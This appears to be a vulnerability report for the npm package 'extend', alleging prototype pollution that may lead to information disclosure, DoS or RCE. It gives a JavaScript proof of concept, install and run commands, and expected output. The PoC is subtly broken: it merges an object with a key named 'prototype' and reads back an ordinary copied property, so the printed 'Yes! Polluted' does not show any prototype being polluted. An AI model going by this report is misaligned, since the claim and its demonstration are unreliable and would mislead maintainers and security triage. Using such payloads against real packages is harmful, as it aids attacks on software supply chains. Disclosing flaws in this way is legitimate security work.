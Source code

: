 # Description

`extend` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
let extend = require('extend');
let payload = JSON.parse('{"prototype": {"polluted": "Yes! Polluted"}}');
let object =extend({}, payload);
console.log(object.prototype.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i extend # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Polluted
```
